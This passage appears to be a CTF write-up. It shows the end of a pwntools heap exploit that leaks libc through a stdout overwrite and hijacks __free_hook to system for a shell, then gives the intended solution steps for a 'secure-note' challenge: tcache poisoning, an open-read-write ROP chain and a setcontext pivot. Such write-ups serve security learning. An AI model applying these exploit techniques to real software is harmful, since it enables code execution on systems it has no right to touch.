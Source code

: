 ```python
create(0, 0x200, b'aaaa')
create(1, 0x200, b'\xa0')
create(2, 0x200, p64(0xfbad1800) + b'\x00' * 25)
libc_leak = u64(p.recvuntil(b'done')[0x8:0x10])
libc_base = libc_leak - 2013568
log.info(f'libc base : 0x{libc_base:x}')
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']

sleep(0.3)

# stage3: overwrite free_hook to system
create(0, 0x100, b'aaaa')
create(1, 0x100, b'aaaa')
delete(1)
delete(0)
edit(0, p64(free_hook))
create(0, 0x100, b'aaaa')
create(0, 0x100, p64(system))
create(0, 0x10, b'/bin/sh\x00')
delete(0)

p.interactive()
```

# 2. secure-note

---

## 2.1 Description

---

```python
I made secrue note

nc ctf.epist.kr 30002
```

## 2.2 TL;DR

---

의도된 풀이

1. Tcache poisoning to overwrite `stdout` 
2. Overwrite `_IO_2_1_stdout` to leak
3. Write ROP payload(open-read-write) in .bss 
4. Overwrite `__free_hook` to stack-pivot gadget(`setcontext` gadget)
5. Call setcontext and ROP payload(open-read-write)
